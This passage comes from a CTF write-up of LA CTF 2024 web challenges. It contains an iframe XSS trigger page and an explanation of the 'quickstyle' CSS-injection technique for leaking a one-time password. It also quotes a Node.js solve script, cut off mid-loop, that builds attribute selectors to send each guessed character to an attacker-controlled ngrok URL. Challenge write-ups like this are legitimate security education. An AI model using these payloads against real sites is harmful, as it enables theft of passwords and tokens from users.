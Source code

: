 Payload on the attacker server to trigger XSS via `iframe`, the bot will visit this page.
```html
<!DOCTYPE html>
<html>
<head>
    <title>PBR | UCLA</title> 
</head>
<body>
    <iframe src="https://ctf-wiki.chall.lac.tf/view/{xss_id}"></iframe>
</body>
</html>
```

## quickstyle
Reference: 
- [https://github.com/uclaacm/lactf-archive/tree/main/2024/web/quickstyle/solve](https://github.com/uclaacm/lactf-archive/tree/main/2024/web/quickstyle/solve)
- [https://gist.github.com/arkark/5787676037003362131f30ca7c753627](https://gist.github.com/arkark/5787676037003362131f30ca7c753627)

The intended solution was to use a variant of [3-combo](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/#multiple-requests-per-element-crossfade) to leak a one-time password.

But after reading other people writeup, I found that arkark's [solution](https://gist.github.com/arkark/5787676037003362131f30ca7c753627) was the most simple and easy to understand. The idea was to not let the server regenerate the otp by abusing the disk cache on the client-side. 

The flow was go to website (generate otp) -> leak first character via css -> go to about:blank -> use history.back() to use the disk cache (doesn't generate otp) -> leak second character and so on...

Note: Script executed in about:blank, in this case `history.back()` is considered to be same origin in the [document](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy#inherited_origins), so the SOP won't block navigating back via `history` object.  

**Solve script from arkark's writeup**
```js
const app = require('fastify')({});
const path = require('node:path');

const ATTACKER_BASE_URL =
  'https://<ngrok-id>.ngrok-free.app';

const user = 'username_xxxxx';

app.addHook('onSend', async (res, reply) => {
  reply.header('Access-Control-Allow-Origin', '*');
});

app.register(require('@fastify/static'), {
  root: path.join(__dirname, 'public'),
  prefix: '/'
});

const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

let known = '';
const TARGET_LEN = 80;
const CHARS = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';

app.get('/cssi', async (req, reply) => {
  let css = '';
  for (const c of CHARS) {
    css += `
      input[value ^= "${known}${c}"] {
        background: url("${ATTACKER_BASE_URL}/cssi/leak?prefix=${known}${c}");
```